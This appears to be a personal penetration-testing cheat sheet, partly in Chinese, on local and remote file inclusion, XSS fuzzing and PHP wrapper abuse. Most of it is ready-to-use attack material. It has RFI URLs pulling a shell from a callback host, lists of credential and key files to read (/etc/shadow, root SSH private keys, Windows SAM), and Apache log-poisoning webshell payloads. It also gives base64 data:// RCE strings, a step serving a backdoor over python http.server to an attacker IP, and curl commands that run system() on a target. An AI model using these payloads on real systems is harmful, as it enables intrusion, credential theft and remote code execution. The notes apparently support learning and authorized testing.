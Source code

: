 # Testing for LFI
http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
**上传文件时，使用Burp修改文件路径/名称**
## Interesting File
linux:
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```
windows:
```powershell
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
# IIS
C:\inetpub\wwwroot\web.config
C:\inetpub\logs\LogFiles\W3SVC1\ 
```
## LFI lead to RCE
include payload
**LFI 查看网站对应的编程语言文件也是可以执行的！**
[[Directory Traversal && File Inclusion#File Inclusion]]
## FileUpload MIX LFI
upload ssh key
[[File Upload Vulnerablity#Using Non-Executable File]]
### Apache log poisoning for linux
payload: `<?php echo system($_GET['cmd']); ?>` && `<?php passthru($_GET['cmd']); ?>`
```bash
# /etc/apache2/sites-enabled/000-default.conf --> find webroot
../../../../var/log/apache2/access.log&cmd=<cmd>
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php
```
## Resources (LFI2RFI)

- Turning LFI to RFI: 
  https://l.avala.mp/?p=241
  Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241
```bash
cp simple-backdoor.php .
python -m http.server -s 192.168.45.166 -p 80
http://mountaindesserts.com/meteor/index.php?page=http://<attacp_ip>:<port>/simple-backdoor.php&cmd=ls
```

# Testing for XSS
[[XSS - Cross Site Scripting]]
[[XSS|XSS - Jr]]
```bash
wfuzz -c -z file,/home/kali/Documents/appsec/XSS-BruteLogic.txt --hc 404 -b "PHPSESSID=8lapft18dfalqhmisafl75ftml" -p "127.0.0.1:8080:HTTP" "http://IP:42001/xss/?name=FUZZ"
```
## fuzzing xss/sqli
```bash
locate seclists | grep -i xss #xss词表
wfuzz -c -z file,/home/kali/Documents/appsec/XSS-BruteLogic.txt --hc 404 -b "PHPSESSID=8lapft18dfalqhmisafl75ftml" -p "127.0.0.1:8080:HTTP" "http://IP:42001/xss/?name=FUZZ"
```
## [[OS Command Injection]]
api, form-parameter (like git) -- api form-para abuse
- backend function: eval() & popen()
## php wrapper 
Need ***allow_url_include***!
```bash
#Extract the sourse code.
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
#RCE
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```